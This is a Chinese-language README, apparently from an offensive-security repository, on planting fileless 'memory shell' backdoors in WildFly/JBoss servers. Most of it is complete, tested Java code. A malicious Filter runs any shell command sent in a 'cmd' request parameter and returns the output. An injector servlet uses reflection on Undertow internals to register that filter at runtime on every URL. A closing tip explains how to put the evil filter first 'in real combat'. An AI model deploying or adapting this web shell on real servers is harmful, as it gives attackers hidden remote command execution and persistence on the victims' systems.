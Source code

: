 # Wildfly

> WildFly，原名JBoss AS或者JBoss，是一套应用程序服务器，属于开源的企业级Java中间件软件，用于实现基于SOA架构的web应用和服务。

### 内存马
#### ServletContext

##### 获取Context-基于getServletContext()

```
ServletContext servletContext = request.getServletContext();
```

![image-20211230174050842](readme.assets/image-20211230174050842.png)

#### Filter

##### 静态添加-基于web.xml

FilterShell.java

```java
package com.example.wildfly;

import javax.servlet.*;
import java.io.IOException;

public class FilterShell implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain filterChain) throws IOException, ServletException {
        try {
            String cmd;
            if ((cmd = req.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                resp.getOutputStream().write(stringBuilder.toString().getBytes());
                resp.getOutputStream().flush();
                resp.getOutputStream().close();
            }
            filterChain.doFilter(req, resp);
        }catch (Exception e){
            filterChain.doFilter(req, resp);
        }

    }

    @Override
    public void destroy() {

    }
}
```

web.xml

```java
<filter>
    <filter-name>FilterShell</filter-name>
    <filter-class>com.example.wildfly.FilterShell</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterShell</filter-name>
    <url-pattern>/index</url-pattern>
</filter-mapping>
```



Tested Version:	WildFly v18.0.0.Final

![image-20211230161228102](readme.assets/image-20211230161228102.png)



##### 动态添加-基于DeploymentInfo

参考

- https://www.tabnine.com/code/java/methods/io.undertow.servlet.api.DeploymentInfo/addFilter

![image-20211230173612025](JBoss&Wildfly%20Filter%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC%E5%AE%9E%E7%8E%B0.assets/image-20211230173612025.png)

拎出来，该反射的用反射实现就成

- 基于getServletContext()获取上下文Context

```java
ServletContext servletContext = request.getServletContext();
```

- 生成恶意Filter

```java
Filter evilFilter = new FilterShell();
```

- 构造FilterInfo

```java
FilterInfo filter = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
```

- 反射获取deploymentInfo，调用`public DeploymentInfo addFilter`添加filter

```java
Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
deploymentInfoF.setAccessible(true);
DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
deploymentInfo.addFilter(filter);
```

- 反射获取deployment，调用`public ManagedFilter addFilter`将filterInfo添加到filters中

```java
Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
deploymentF.setAccessible(true);
DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
deployment.getFilters().addFilter(filter);
```

- 调用`addFilterUrlMapping`添加映射即可

```java
deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
```

- 添加banner

```java
response.getWriter().write("inject success !!!");
```

最终测试代码整合如下

```java
package com.example.wildfly;

import io.undertow.servlet.api.DeploymentInfo;
import io.undertow.servlet.api.FilterInfo;
import io.undertow.servlet.core.DeploymentImpl;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * Tested version:
 *      WildFly 18.0.0.Final
 *      Wildfly 20.0.1.Final
 *      WildFly 24.0.1.Final
 *
 */
public class FilterInject extends HttpServlet {
    public static class FilterShell implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            ServletContext servletContext = request.getServletContext();
            Filter evilFilter = new FilterShell();
            FilterInfo filterInfo = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
            Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
            deploymentInfoF.setAccessible(true);
            DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
            deploymentInfo.addFilter(filterInfo);
            Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
            deploymentF.setAccessible(true);
            DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
            deployment.getFilters().addFilter(filterInfo);
            deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
            response.getWriter().write("inject success !!!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果如图

![image-20211230181606604](readme.assets/image-20211230181606604.png)

注：实战场景也许有将evilFilter置首的需求，可使用

- io.undertow.servlet.api.DeploymentInfo#insertFilterUrlMapping
```
deploymentInfo.insertFilterUrlMapping(0,evilFilter.getClass().getName(),"/*",DispatcherType.REQUEST);
```
